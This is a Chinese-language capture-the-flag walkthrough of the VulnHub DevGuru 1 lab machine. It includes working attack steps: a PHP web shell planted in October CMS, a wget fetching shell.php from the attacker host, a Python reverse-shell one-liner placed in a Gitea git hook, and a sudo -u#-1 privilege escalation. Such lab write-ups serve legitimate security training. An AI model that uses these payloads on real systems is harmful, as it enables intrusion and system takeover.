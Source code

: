 # DevGuru 1

> https://download.vulnhub.com/devguru/devguru.ova.7z

靶场IP：`192.168.32.224`

扫描对外端口服务

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p 1-65535 -sV  192.168.32.224
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 01:23 EDT
Nmap scan report for 192.168.32.224
Host is up (0.00096s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8585/tcp open  unknown
```

访问80端口

![image-20220911132521914](../../.gitbook/assets/image-20220911132521914.png)

爆破目录

```
┌──(root💀kali)-[/tmp]
└─# dirb http://192.168.32.224/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Sep 11 01:25:29 2022
URL_BASE: http://192.168.32.224/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.224/ ----
+ http://192.168.32.224/.git/HEAD (CODE:200|SIZE:23)                                                                                                                                                                                                                                                                        
+ http://192.168.32.224/.htaccess (CODE:200|SIZE:1678)                                                                                                                                                                                                                                                                      
+ http://192.168.32.224/0 (CODE:200|SIZE:12674)                                                                                                                                                                                                                                                                             
+ http://192.168.32.224/about (CODE:200|SIZE:18666)                                                                                                                                                                                                                                                                         
+ http://192.168.32.224/About (CODE:200|SIZE:18666)                                                                                                                                                                                                                                                                         
+ http://192.168.32.224/backend (CODE:302|SIZE:414)                                                                                                                                                                                                                                                                         
==> DIRECTORY: http://192.168.32.224/config/                                                                                                                                                                                                                                                                                
+ http://192.168.32.224/index.php (CODE:200|SIZE:12724)                                                                                                                                                                                                                                                                     
==> DIRECTORY: http://192.168.32.224/modules/                                                                                                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.224/plugins/                                                                                                                                                                                                                                                                               
+ http://192.168.32.224/services (CODE:200|SIZE:10038)                                                                                                                                                                                                                                                                      
+ http://192.168.32.224/Services (CODE:200|SIZE:10038)                                                                                                                                                                                                                                                                      
==> DIRECTORY: http://192.168.32.224/storage/                                                                                                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.224/themes/                                                                                                                                                                                                                                                                                
==> DIRECTORY: http://192.168.32.224/vendor/                                                                                                                                                                                                                                                                                
                                                                                                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.32.224/config/ ----
                                                                                                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.32.224/modules/ ----
==> DIRECTORY: http://192.168.32.224/modules/backend/                                                                                                                                                                                                                                                                       
==> DIRECTORY: http://192.168.32.224/modules/cms/                                                                                                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.224/modules/system/                                                                                                                                                                                                                                                                        
                                                                 
```

访问：`/.git/HEAD`

![image-20220911133800456](../../.gitbook/assets/image-20220911133800456.png)

使用[git-dumper](https://github.com/arthaud/git-dumper)对整个git项目导出

```
┌──(root💀kali)-[/opt/git-dumper]
└─# python3 git_dumper.py  http://192.168.32.224 /tmp/sources
```

![QQ录屏20220911134103](../../.gitbook/assets/QQ录屏20220911134103.gif)

访问：`/adminer.php`，发现需要数据库连接信息

![image-20220911134719207](../../.gitbook/assets/image-20220911134719207.png)

查看数据库连接文件

```
┌──(root💀kali)-[/tmp/sources]
└─# cat config/database.php


'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ],
```

登录成功

![image-20220911134800481](../../.gitbook/assets/image-20220911134800481.png)

在 `backend_users` 表中，我在这里看到了用户"`frank`"的记录，我找到了bcrypt 算法加密形式的密码，并且可以使用编辑选项卡修改该记录。

![image-20220911143536787](../../.gitbook/assets/image-20220911143536787.png)

因此，我尝试使用 https://www.browserling.com/tools/bcrypt生成一个新密码 ：**hack123**

```
$2a$10$EZqGJ5vfe6K9vtzmn9xPCOER/W0JwLkLzzUFFfmvsM2CKFxr9P4tm
```

使用`frank/hack123`登录cms

![image-20220911143914144](../../.gitbook/assets/image-20220911143914144.png)

![image-20220911144025287](../../.gitbook/assets/image-20220911144049714.png)

我在 Google 上搜索并找到了一个通过执行 PHP 代码来利用 October CMS的[链接。](https://octobercms.com/forum/post/running-php-code-on-pages)所以我执行以下代码：

```
{{ this.page.getShell }}
```

![image-20220911144531339](../../.gitbook/assets/image-20220911144531339.png)

在"`home.htm`"文件的代码选项卡中添加以下方法：

```php
function onStart() {
	$this->page['getShell'] = system($_GET['cmd']);
}
```

![image-20220911144637827](../../.gitbook/assets/image-20220911144637827.png)

执行shell：`http://192.168.32.224/?cmd=ls -la`

![image-20220911144755272](../../.gitbook/assets/image-20220911144755272.png)

下载反弹shell

```
192.168.32.224/?cmd=wget http://192.168.32.130/shell.php
```

我们得到了反向连接，让我们进一步列举。我们在 /var/backup 中找到了**app.ini.bak**文件

![image-20220911145415804](../../.gitbook/assets/image-20220911145415804.png)

在这里，我们找到了 `gitea` DB 的另一个登录凭据。

```
[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
```

因此我们以`gitea:UfFPTF8C8jjxVF2m`登录mysql

![image-20220911145710421](../../.gitbook/assets/image-20220911145710421.png)

在用户内部的 gitea DB 中，该表包含 `user:frank` 并再次更改密码

![image-20220911145753626](../../.gitbook/assets/image-20220911145753626.png)

现在让我们使用上面生成的用户 Frank 的密码哈希。因此，我为用户 frank 编辑了记录并更新了表格。

![image-20220911145901856](../../.gitbook/assets/image-20220911145901856.png)

然后我导航到 gitea over 8585 并使用以下凭据登录

![image-20220911145953967](../../.gitbook/assets/image-20220911145953967.png)

在这里，我们得到了仪表板并找到了 `frank/devguru-website` 的链接。

![image-20220911150029521](../../.gitbook/assets/image-20220911150029521.png)

单击图像中突出显示的设置。

![image-20220911150114626](../../.gitbook/assets/image-20220911150114626.png)

点击**Git Hooks > pre-receive > Hook Content**然后执行 python 反向 shell 和代码。

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20220911150058942](../../.gitbook/assets/image-20220911150058942.png)

![image-20220911150224444](../../.gitbook/assets/image-20220911150224444.png)

但是您需要更新存储库以执行 python 代码，因此返回存储库并打开 `README.md`

现在通过在文件末尾添加一些空白行来编辑文件，并在单击提交更改后立即单击提交更改，它将更新存储库，您将通过 netcat 会话获得反向连接。

![QQ录屏20220911150411](../../.gitbook/assets/QQ录屏20220911150411.gif)

因此，我们得到了反向连接，我们找到了 `user.txt` 文件，这是我们的第一个标志。

![image-20220911150559111](../../.gitbook/assets/image-20220911150559111.png)

为了提升权限，我们检查了 Sudo 权限，发现用户 frank 可以使用 root 权限运行 sqlite3，而且安装的 sudoers 插件版本也存在漏洞。

![image-20220911150637333](../../.gitbook/assets/image-20220911150637333.png)

我们从[这里](https://www.exploit-db.com/exploits/47502)发现了一个漏洞。然后我执行以下命令以获取 root 权限 shell 并读取作为我们最终标志的 root.txt。

```
sudo -u#-1 sqlite3 /dev/null '.shell /bin/bash'
```

![image-20230208134605514](../../.gitbook/assets/image-20230208134605514.png)
